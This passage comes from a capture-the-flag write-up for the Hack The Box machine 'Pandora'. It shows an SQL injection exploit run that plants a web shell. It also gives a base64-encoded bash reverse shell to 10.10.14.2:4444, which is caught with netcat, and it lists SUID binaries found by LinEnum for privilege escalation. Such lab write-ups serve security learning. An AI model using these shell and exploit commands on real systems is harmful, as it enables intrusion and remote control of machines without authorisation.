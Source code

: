 
#Shell as matt

And finally we got a shell

```bash
┌──(herc㉿kali)-[/CTF/HTB/Pandora]
└─$ python3 sqlpwn.py -t 127.0.0.1:80
URL:  http://127.0.0.1:80/pandora_console
[+] Sending Injection Payload
[+] Requesting Session
[+] Admin Session Cookie : gas8r2jaf60vroiq3a2a3tbm1q
[+] Sending Payload 
[+] Respose : 200
[+] Pwned :)
[+] If you want manual Control : http://127.0.0.1:80/pandora_console/images/pwn.php?test=
CMD > whoami
matt

CMD >
```

next I am going to get a better reverse shell and upgrade it.  
To do that first I will use basic bash reverse shell and encode it to base64.  

```bash
┌──(herc㉿kali)-[~]
└─$ `echo -n "bash -i  >& /dev/tcp/10.10.14.2/4444  0>&1" | base64`
YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMi80NDQ0ICAwPiYx
```

Execute it on prevous shell  

```bash
CMD > `echo -n "YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMi80NDQ0ICAwPiYx" | base64 -d | bash`
```

And finally a great success  

```bash
┌──(herc㉿kali)-[~]
└─$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.136] 40092
bash: cannot set terminal process group (890): Inappropriate ioctl for device
bash: no job control in this shell
matt@pandora:/var/www/pandora/pandora_console/images$
```

# Privilege Escalation X2

I ran LinEnum.sh on the box which you can get from here:  
> https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh

And script found an SUID binary which we might be able to escalate privileges with.  

```bash
...[SNIP]...

[-] SUID files:
-rwsr-xr-x 1 root root 166056 Jan 19  2021 /usr/bin/sudo
-rwsr-xr-x 1 root root 31032 May 26  2021 /usr/bin/pkexec
-rwsr-xr-x 1 root root 85064 Jul 14  2021 /usr/bin/chfn
-rwsr-xr-x 1 root root 44784 Jul 14  2021 /usr/bin/newgrp
-rwsr-xr-x 1 root root 88464 Jul 14  2021 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 39144 Jul 21  2020 /usr/bin/umount
-rwsr-x--- 1 root matt 16816 Dec  3 15:58 /usr/bin/pandora_backup
-rwsr-xr-x 1 root root 68208 Jul 14  2021 /usr/bin/passwd
-rwsr-xr-x 1 root root 55528 Jul 21  2020 /usr/bin/mount
-rwsr-xr-x 1 root root 67816 Jul 21  2020 /usr/bin/su
```